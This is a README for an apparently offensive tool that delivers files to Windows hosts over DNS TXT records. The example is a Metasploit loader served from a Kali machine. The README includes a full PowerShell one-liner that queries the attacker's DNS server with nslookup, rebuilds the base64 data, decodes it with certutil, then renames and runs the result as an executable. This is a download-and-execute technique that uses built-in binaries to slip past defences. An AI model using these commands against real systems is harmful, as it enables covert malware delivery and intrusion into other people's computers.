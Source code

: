 # Windows_File_Transfers
Repository for ways to transfer files to Windows using built in binaries

Techniques
dns_server.py
-DNS Server that base64 encodes a file and then server that file in TXT records that are availble through DNS

Usage 
./dns_server.py (FILE_TO_Serve)
-Will output command to use powershell with nslookup to transfer file, then use certutil to decode.
-file that is created on windows system is named "newFile"
-run mv newFile to newFile.exe and run

Example Usage:
KALI 

./dns_server.py /root/Downloads/Metasploit_Custom_loader/loader_64.exe
Old ZoneFile exists, removing
Powershell File Transfer, enter text below in powershell window, change CHANGEME_IP_KALI to IP address of Kali system
 
del File.txt; del newFile; $c = ""; $i = 1; while ($i -le 303){$a = nslookup -q=txt "$i.texting.com" CHANGEME_IP_KALI | Select-String -Pattern '"' | Out-String ; $b = $a.trim(); $c += $b.Replace("`"",""); $i += 1}; $c.Replace("`n","") | Out-File -Append File.txt; certutil.exe -decode .\File.txt newFile
(SNIPPED)

WINDOWS:

-Paste text from script in powershell window, changing IP:
del File.txt; del newFile; $c = ""; $i = 1; while ($i -le 303){$a = nslookup -q=txt "$i.texting.com" 172.16.6.130 | Select-String -Pattern '"' | Out-String ; $b = $a.trim(); $c += $b.Replace("`"",""); $i += 1}; $c.Replace("`n","") | Out-File -Append File.txt; certutil.exe -decode .\File.txt newFile

-Rename file
mv newFile newFile.exe

-Run File
.\newFile.exe
